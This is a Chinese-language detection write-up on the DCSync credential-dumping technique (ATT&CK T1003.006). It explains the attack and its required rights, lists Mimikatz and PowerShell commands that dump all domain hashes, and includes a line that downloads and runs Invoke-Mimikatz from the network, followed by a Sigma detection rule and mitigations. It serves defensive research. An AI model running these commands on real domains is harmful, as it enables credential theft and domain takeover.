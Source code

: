 # T1003-006-windows-基于DCsync凭证获取

## 来自ATT&CK的描述

攻击者可能会通过滥用Windows域控制器的应用程序编程接口（API）来访问凭据和其他敏感信息，从而使用称为DCSync的技术来模拟来自远程域控制器的复制过程。

域控制器上的Administrators，Domain Admins和Enterprise Admin组或计算机帐户的成员能够运行DCSync来从Active Directory中提取密码数据，其中可能包括潜在有用帐户（例如KRBTGT和管理员。然后，这些散列又可以用于创建“黄金票证”，以用于“传递票证” 或更改“ 帐户操作”中所述的帐户密码。

DCSync功能已被列入“lsadump”模块中Mimikatz。Lsadump还包括NetSync，它通过旧版复制协议执行DCSync。

### DCsync

DCSync 是一种后期杀伤链攻击，允许攻击者模拟域控制器（DC）的行为，以便通过域复制检索密码数据。一旦攻击者可以访问具有域复制权限的特权帐户，攻击者就可以利用复制协议来模仿域控制器。

![img](https://s2.ax1x.com/2019/09/24/uk1Q6x.png)

**DCSync**  本身是**Mimikatz**中的一个命令，  [它](https://github.com/gentilkiwi/mimikatz) 依赖于利用Microsoft目录复制服务远程协议（MS-DRSR）中的特定命令来模拟域控制器的行为，并要求其他域控制器使用[目录复制服务远程协议](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47)来复制信息  [（MS-DRSR）](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47)。利用这些协议，此攻击利用了Active Directory的有效和必要功能，无法关闭或禁用它们。

### DCsync攻击原理

一般来说，DCSYNC攻击的工作方式如下：

1. 发现域控制器以请求复制。
2. 使用[GetNCChanges](https://wiki.samba.org/index.php/DRSUAPI) 函数请求用户复制 。
3. DC将复制数据返回给请求者，包括密码哈希值。

![img](https://s2.ax1x.com/2019/09/24/uk1ttH.gif)

DCSync的经典用例是作为[Golden Ticket](https://attack.stealthbits.com/how-golden-ticket-attack-works) 攻击的前身，因为它可用于检索KRBTGT HASH。

### 所需权限

值得注意的是，为了执行此攻击，需要一些非常特权的权限。这就是为什么这种攻击被归类为在杀伤链攻击的后期发生的原因，并且攻击者通常需要一些时间才能获得这些权限。

通常，管理员，域管理员，企业管理员拥有所需的权限，但更具体地说，需要以下权限：

- 复制目录更改
- 复制目录全部更改
- 在筛选集中复制目录更改

## 测试案例

DCSync是mimikatz在2015年添加的一个功能，由Benjamin DELPY gentilkiwi和Vincent LE TOUX共同编写，能够用来导出域内所有用户的hash.

**利用条件：**

获得以下任一用户的权限：

- Administrators组内的用户
- Domain Admins组内的用户
- Enterprise Admins组内的用户
- 域控制器的计算机帐户

利用DRS(Directory Replication Service)协议通过IDL_DRSGetNCChanges从域控制器复制用户凭据

### 1.使用mimikatz

导出域内所有用户的hash：

```dos
mimikatz.exe privilege::debug "lsadump::dcsync /domain:abcc.org /all /csv" exit
```

导出域内administrator帐户的hash：

```dos
mimikatz.exe privilege::debug "lsadump::dcsync /domain:abcc.org /user:administrator /csv" exit
```

#### 2.powershell实现

通过Invoke-ReflectivePEinjection调用mimikatz.dll中的dcsync功能

导出域内所有用户的hash：

```powershell
Invoke-DCSync -DumpForest | ft -wrap -autosize
```

导出域内administrator帐户的hash：

```powershell
Invoke-DCSync -DumpForest -Users @("administrator") | ft -wrap -autosize
```

## 检测日志

windows 安全日志

## 测试复现

复现方法分为两类：本地、远程

### 场景:在本地运行DCsync,利用powershell脚本Invoke-Mimikatz

 在Windows域控服务器上启动powershell，然后下载Invoke-Mimikatz。

```powershell
iex (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')
```

 完成后，我们可以使用以下命令运行DCSync。

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt /domain:0day.org"'
```

## 测试留痕

windows 安全日志，4662（在对象上已执行操作），特征值：*1131f6ad-9c07-11d1-f79f-00c04fc2dcd2，控制访问*

## 检测规则/思路

DCSync是一个强大的工具，在红色团队成员手中，对于蓝色团队成员而言，这是一场噩梦。对于蓝队，一切都不会丢失。停止这种攻击可能不可行，但可以将其检测出来。

检测方法： 网络监控 、事件ID检测

### sigma规则

```yml
title: 在DCSync位置进行检测
description: windows server 2008 测试结果（域控本地）
references: https://yojimbosecurity.ninja/dcsync/
tags: T1003-006
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4662 #在对象上已执行操作。
        Operationtype: 'Obeject Access' #操作>操作类型
        Access: '访问控制' #操作>访问
        Properties:
             - '*1131f6aa-9c07-11d1-f79f-00c04fc2dcd2*'  #特征值 mimikatz导出域账户
             - '*1131f6ad-9c07-11d1-f79f-00c04fc2dcd2*'  #特征值 mimikatz导出administrator
             - ‘*89e95b76-444d-4c62-991a-0facbeda640c*’  #特征值
    condition: selection
level: medium
```

### 建议

暂无

## 缓解措施及临时性解决方案

免受DCSync攻击的最佳保护是控制负责允许帐户复制更改的域权限。不可避免地，某些用户将拥有此权利，因此应受到保护。

为避免将特权密码详细信息存储在攻击者可能会破坏它们的位置，应使用分层的登录协议来防止特权帐户登录到可以从内存中转储其密码哈希值并用于获取执行密码所需权限的服务器和工作站。

## 参考推荐

MITRE-ATT&CK-T1003-006

<https://attack.mitre.org/techniques/T1003/006>

什么是DCSYNC？一个介绍

<https://blog.stealthbits.com/what-is-dcsync/>

域渗透——DCSync

<https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-DCSync/>

DCsync利用原理

<https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47>

powershell工具实现

<https://gist.github.com/monoxgas/9d238accd969550136db>

DCsysnc检测

<https://yojimbosecurity.ninja/dcsync/>

Active Directory复制

<https://github.com/hunters-forge/ThreatHunter-Playbook/blob/master/library/active_directory_replication.md>

